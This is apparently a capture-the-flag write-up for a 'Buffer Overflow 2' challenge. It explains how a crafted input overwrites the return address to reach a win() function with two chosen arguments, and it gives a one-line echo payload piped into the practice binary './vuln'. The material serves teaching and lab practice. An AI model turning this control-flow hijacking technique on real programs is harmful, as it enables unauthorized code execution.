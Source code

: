 # Buffer Overflow 2
Alright, this time you'll need to control some arguments. Can you get the flag from this program?

## Solution
This problem required a carefully crafted input what set the return pointer to the `win()` function and also set the the arguments to be `arg1 = 0xDEADBEEF` and `arg2 = 0xDEADC0DE`, respectfully.

### Exploit
```
echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE\xcb\x85\x04\x08abcd\xef\xbe\xad\xde\xde\xc0\xad\xde" | ./vuln
```

